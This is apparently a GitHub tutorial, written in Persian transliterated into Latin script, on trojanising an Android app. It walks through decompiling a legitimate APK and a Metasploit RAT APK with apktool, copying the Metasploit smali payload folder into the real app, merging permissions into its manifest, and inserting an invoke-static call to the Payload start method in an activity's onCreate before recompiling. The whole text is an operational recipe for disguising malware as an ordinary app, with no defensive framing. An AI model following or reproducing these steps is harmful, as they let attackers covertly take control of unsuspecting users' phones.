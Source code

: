 ## Decompile and Recompile An android APK 🧰

Ghasd darim yek app ra decompile karde va pas az tazrigh metasploit dobare recompile konim 

$ bad az sakht metasploit tebgh ravesh gofte shode dar `Android-MetaSploit-L1` 2 kar zer ra bayad anjam dahim

```bash
apktool d /home/kali/Dekstop/rat.apk
```

```bash
apktool d /home/kali/Dekstop/app.apk
```

har 2 app ra decompile mikonim


## Install apktool ⬇️

abzar "apktool" b sorat pishfarz dar kali linux nasb nist va b shekl zer eghdam b nasb namaed

```bash
sudo apt install apktool
```

$ bar roye joft poshe haye decompile shode app ha ras click karde va gozine `open as Root` ra mizanim ta baz shavand

### 2 kar ra bayad anjam dahim

1. **Jaygozine metasploit** Poshe "metasploit" ra az app alode dar address `smali > com > metasploit` dar hamin address dar app asli jaygozin mikonim
 ``` 
2. **Edit AndroidManifest.xml** bar roye har 2 file `AndroidManifext.xml` click rast karde va `Open With "MousePad" ra mizanim va karhaye zer ra anjam midahim

- copy ebeart ro b ro az "rat" b "app"        
`<uses-permission android:""/>`

- search `activity android` va dar hamon khat ebarat `android:name=` ro b rosh ye hamchin chizi hast : `com.google.android.gms.common.api.GoogleApiActivity`
- `com.google.android.gms.common.api.GoogleApiActivity` en masir ro dar "app asli" peyda mikonm
example : Poshe smali > Poshe com > Poshe google > Poshe android > Poshe gms > Poshe common > ..... > Akharesh b ye "file" mirsim 
- Dakhel file migardim donbal ebarat `onCreate(Landroid/os/Bundle;)v` Agar chand ta bood , On k avvalesh `method` Dare
- Ye Enter mizanim va khat badi en `invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V` ro ezafe mikonim

```
Dige ba "rat" kari nadarim va "app asli" ro Recompile mikonim va Tamam ....

```bash
apktool b /home/kali/Dekstop/app.apk
```
